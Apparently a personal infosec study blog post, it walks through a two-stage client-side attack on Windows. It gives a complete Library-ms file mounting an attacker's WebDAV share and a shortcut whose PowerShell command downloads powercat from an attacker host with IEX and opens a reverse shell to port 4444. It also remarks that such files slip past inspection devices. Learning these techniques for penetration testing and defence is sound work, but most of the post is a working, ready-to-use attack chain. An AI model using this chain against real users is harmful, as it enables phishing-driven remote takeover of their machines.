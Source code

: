 ```yaml
---
layout: post
title: Windows Library Files
titledate: 09/06/23
tags: ["infosec","offsec"]
---
```


#### Windows Library Files

First we create a 2 stage client side attack

Windows library file connecting to a _WebDAV_

When the victim receives a  _.Library-ms_ file and double clicks it the share will be mounted and appear as a regular directory

Inside we can put a .lnk  shortcut that  when clicked executes a Powershell reverse shell

<h3>Note most inspection devices may filter or catch malicious lnk files, but lib-ms files can go unnoticed</h3>

First we setup a WebDAV share

    $ pip3 install wsgidav
    $ mkdir /home/kali/webdav
    $ touch /home/kali/webdav/test.txt
    $/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Next we connect to our windows computer and create a _config.Library-ms_ file

<h4>craft Library-ms</h4>
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    </libraryDescription>
```

Now we add 2 tags inside the Library tag
```xml
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>    
```

isLibraryPinned pins the library to the nav panel in windows explorer
```xml
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>

    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
```
WebDAV share info
```xml
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
```
final WebDAV
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
```
<h4>execution</h4>

Now when we execute our lib-ms file we see our created test.txt file mounted in windows explorer

<h3>Note: to avoid issues with this attack, reset the file to final WebDAV</h3>

#### Reverse Shell

Next we create a shortcut on the Desktop for the user and point it to a powershell reverse shell

    powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
    powercat -c 192.168.119.3 -p 4444 -e powershell"

Now with our webDAV server running, our python server hosting powercat and a netcat listener listening ^^:> our webDAV share will be mounted and a user can click our shortcut to retrieve the powercat script to enable our reverse shell to connect

#### TODO

Look into swaks, smtp and pop3 exploitation